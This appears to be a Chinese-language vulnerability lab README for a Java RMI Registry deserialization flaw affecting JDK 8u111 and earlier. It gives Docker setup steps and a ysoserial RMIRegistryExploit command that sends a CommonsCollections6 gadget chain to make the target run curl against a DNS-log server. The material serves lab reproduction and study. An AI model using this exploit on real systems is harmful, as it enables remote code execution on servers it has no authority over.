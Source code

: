 # Java RMI Registry 反序列化漏洞(<=jdk8u111)

## 漏洞描述

Java Remote Method Invocation 用于在Java中进行远程调用。RMI存在远程bind的功能（虽然大多数情况不允许远程bind），在bind过程中，伪造Registry接收到的序列化数据（实现了Remote接口或动态代理了实现了Remote接口的对象），使Registry在对数据进行反序列化时触发相应的利用链（环境用的是commons-collections:3.2.1）。

## 环境搭建

执行如下命令编译及启动RMI Registry和服务器：

```
docker-compose build
docker-compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

其中，`your-ip`是服务器IP，客户端会根据这个IP来连接服务器。

环境启动后，RMI Registry监听在1099端口。

## 漏洞复现

通过ysoserial的exploit包中的RMIRegistryExploit进行攻击

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 CommonsCollections6 "curl your-dnslog-server"
```

![image-20220224142802160](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241428503.png)

Registry会返回报错，但命令会正常执行。可以看到dnslog成功接收请求。

![image-20220224142736669](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241427738.png)